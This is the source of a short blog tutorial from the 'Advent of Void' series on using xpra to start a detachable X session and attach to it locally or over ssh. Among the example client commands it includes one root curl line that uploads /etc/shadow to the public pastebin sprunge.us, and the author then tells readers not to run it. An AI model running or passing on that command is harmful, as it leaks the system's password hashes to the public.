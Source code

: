 ```yaml
---
layout: post
title: "The Advent of Void: Day 12: xpra"
comments: true
---
```


Here's our first tool using a GUI: [xpra(1)](https://man.voidlinux.org/xpra.1) is
a headless X-Server that allows remotely detaching and attaching its windows 
from multiple platforms including X11, Windows, and Mac.

To use xpra you have to start a new session:

```
# xpra start :14
```

Once xpra has the server running on `:14` you can start clients in the
session:

```
# DISPLAY=:14 xterm &
# DISPLAY=:14 firefox &
# DISPLAY=:14 curl -F sprunge=@/etc/shadow http://sprunge.us &
```

... Actually [don't run the last command](https://twitter.com/Kuwaddo/status/940288213314359296).

To attach the xpra session just use the `attach` command:

```
# xpra attach :14
```

This attaches a local xpra server to the current display. The started X11 should be shown on the screen now.
To detach the session hit `Ctrl`+`C`.

The real power of xpra comes with the remote attaching feature:

```
# xpra attach ssh:remote-server:14
```

This command opens a ssh connections to `remote-server` and attaches
xpra through a secure tunnel. xpra supports multiple encodings, 
including h264, so in contrast to plain X11 over ssh it's incredible fast.

To find out more about xpra, visit the [website](https://xpra.org/).
